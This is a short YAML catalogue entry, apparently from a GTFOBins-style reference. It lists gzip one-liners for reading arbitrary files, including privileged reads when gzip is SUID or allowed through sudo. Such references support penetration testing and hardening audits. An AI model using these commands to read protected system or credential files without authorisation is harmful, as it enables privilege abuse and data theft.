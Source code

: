 ```yaml
---
description: There are also a number of other utilities that rely on `gzip` under the hood, e.g., `zless`, `zcat`, `gunzip`, etc. Besides having similar features, they also allow privileged reads if `gzip` itself is SUID.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gzip -f $LFILE -t
    - code: |
        gzip -c $LFILE | gzip -d
  suid:
    - code: |
        LFILE=file_to_read
        ./gzip -f $LFILE -t
  sudo:
    - code: |
        LFILE=file_to_read
        sudo gzip -f $LFILE -t
---
```

